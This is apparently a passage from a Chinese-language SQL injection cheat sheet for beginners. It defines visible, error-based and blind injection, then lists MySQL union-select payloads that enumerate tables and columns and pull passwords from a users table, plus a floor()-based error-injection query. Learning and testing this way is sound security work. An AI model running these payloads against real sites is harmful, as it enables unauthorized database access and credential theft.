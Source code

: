 ```yaml
---
title: sql 注入合集
date: 2022-02-11 08:37:21
tags:
- sql
categories:
- 渗透
- 知识点
---
```




**SQL注入的攻击方式根据应用程序处理数据库返回内容的不同，可以分为可显注入、报错注入和盲注。本篇总结的很全了，尤其是新手而言，很有用.**

  

**可显注入**

攻击者可以直接在当前界面内容中获取想要获得的内容。

  

**报错注入**

数据库查询返回结果并没有在页面中显示，但是应用程序将数据库报错信息打印到了页面中，所以攻击者可以构造数据库报错语句，从报错信息中获取想要获得的内容。

  

**盲注**

数据库查询结果无法从直观页面中获取，攻击者通过使用数据库逻辑或使数据库库执行延时等方法获取想要获得的内容。

**Mysql 手工注入**
--------------

### **联合注入**

```sql
?id=1' order by 4--+
?id=0' union select 1,2,3,database()--+
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="users" --+
group_concat(column_name) 可替换为 unhex(Hex(cast(column_name+as+char)))column_name
?id=0' union select 1,2,3,group_concat(password) from users --+
group_concat 可替换为 concat_ws(',',id,users,password )
?id=0' union select 1,2,3,password from users limit 0,1--+
```

### **报错注入**  

1.floor()

```sql
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```
  